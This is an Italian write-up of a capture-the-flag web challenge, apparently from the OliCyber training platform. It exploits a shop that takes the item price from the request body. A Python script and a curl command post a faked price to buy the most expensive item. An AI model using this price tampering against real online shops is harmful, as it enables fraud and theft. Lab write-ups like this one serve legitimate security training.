 > Wow questo sito vende delle "flag" stupende, ma quella che voglio io costa troppo. Mi puoi aiutare?

Ci sono tre "flag" in vendita; una da 10 euro ("Bandiera francese", id=0), una da 100 euro ("Bandiera italiana", id=1), e l'ultima da 1000 euro ("Bandiera anonymous", id=2). Il nostro budget è 100 euro e noi dobbiamo riuscire ad avere l'ultima. Il costo di questa viene passato nel corpo della richiesta; creiamo dunque una richiesta con un costo falso qualsiasi in un intervallo da 0 al budget disponibile, e lo stesso id dell'articolo (2).

Con un velocissimo script python:

```python
import requests

URL = 'http://shops.challs.olicyber.it/buy.php'
print(requests.post(URL, data={'costo': '100', 'id': '2'}).text)
```

Oppure:
```bash
curl 'http://shops.challs.olicyber.it/buy.php' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: it,en;q=0.9' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Origin: http://shops.challs.olicyber.it' \
  -H 'Referer: http://shops.challs.olicyber.it/' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36' \
  --data-raw 'id=2&costo=100' \
  --compressed \
  --insecure
```